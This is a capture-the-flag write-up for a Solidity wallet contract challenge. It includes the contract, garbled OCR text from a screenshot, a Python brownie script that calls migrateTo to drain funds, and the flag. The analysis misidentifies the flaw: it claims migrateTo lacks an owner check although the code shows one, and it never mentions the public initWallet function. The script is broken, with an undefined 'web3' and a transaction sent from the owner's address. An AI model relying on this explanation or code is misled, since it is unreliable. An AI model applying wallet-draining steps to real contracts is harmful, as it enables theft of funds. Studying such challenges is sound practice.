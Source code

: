 # Owner Pwned
> "No one can own my wallet !!!!" He said. Or can someone ? Try to steal his money.

> Connection info: http://web3.dvc.tf:5000/challenge1

## About the Challenge
We need to steal the money by exploiting the weakness in the smart contract. Here is the content of the smart contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
 
 

contract Challenge1 {

    address public me;
    mapping(address => uint256) balances;

//constructor
    function initWallet() public {
        me = msg.sender;
    }

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) public {
        require(amount <= balances[msg.sender]);
        payable(msg.sender).transfer(amount);
        balances[msg.sender] -= amount;
    }
//If there is an emergency, i'm protected \o/
    function migrateTo(address to) public {
        require(msg.sender == me, "Only me can withdraw all the funds");
        payable(to).transfer(address(this).balance);
    }
//getBalance returns the balance of the contract, it is always nice to check my fortune 
    function getBalance() public view returns (uint) 
    {
        return (address(this).balance / 1 ether);
    }

}
```

## How to Solve?
As you can see in the smart contract code above, there is a vulnerability on `migrateTo` function. The `migrateTo` function allows the owner of the contract to withdraw the funds to an address. This function does not have any checks to ensure that the destination address is valid or that the contract owner is authorized to withdraw the funds. So we need to call `migrateTo` function. First, you need to deploy the smart contract first


[Image extracted text: Deployed at address Ox9OBE31604027D586872abAI2d61B29aA6cbCADO
"No one can Own my wallet !!!!" He said. Or does someone can ? Try to steal is money
SPDX-License-Identifier:
MIT
pragma solidity
^0.7.6;
contract
Challengel
address public me;
mapping
address
uint256)
balances;
constructor
function initWallet() public
me
msg-sender;
function deposit()
external payable
balances[msg
sender]
+= msg
value;]


I created a python script using `brownie` package to solve this chall

```python
from brownie import Challenge1
from web3 import Web3

contract = Challenge1.at('0x14DfF8A248E1987E352104CE9e93E84DdC93f566')
balance = contract.getBalance()
print(balance)

private_key = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
account = web3.eth.account.privateKeyToAccount(private_key)
tx = contract.migrateTo(account.address, {'from': contract.me(), 'nonce': 422, 'gasPrice': web3.eth.gas_price, 'gas': 200000, 'allow_revert': True})
```

First the code will import the `Challenge1` smart contract and I tried to print the balance first. And then I setup a private key and account for a user who wants to call the `migrateTo` function of the contract to withdraw all the funds. The private key is used to sign the transaction and the account is used to specify the destination address where the funds should be transferred. And I called the `migrateTo` function and verify it on the challenge page to get the flag

```
dvCTF{Wh3r3D1DMyMon3YW3nt}
```